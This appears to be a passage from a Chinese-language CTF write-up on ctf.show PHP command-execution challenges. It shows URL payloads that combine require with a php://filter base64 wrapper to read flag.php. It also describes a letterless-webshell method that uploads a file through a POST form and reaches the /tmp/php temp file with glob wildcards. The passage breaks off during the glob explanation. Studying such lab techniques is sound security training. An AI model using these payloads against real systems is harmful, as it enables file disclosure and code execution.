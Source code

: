 -  require文件包含：只要程序一运行就包含文件 

```php
?c=require%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```


-  上面的payload变形 

```php
?c=require%0a$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```


   - 参数a可以不用单引号包裹'a'

### 无字母webshell(web55)

当限制了所有字母时，采用这种方式

#### 构造post上传数据包

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

- 发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母

#### glob通配符

-  glob支持用`[^x]`的方法来构造“这个位置不是字符x 

```shell
ls /???/???[^-]????
```


-  glob支持利用`[0-9]`来表示一个范围
-  由于Php文件名最后一个字符是大写字母，大写字母的ASCII码值在@-[之间 

```shell
[@-[]//表示大写字母
```
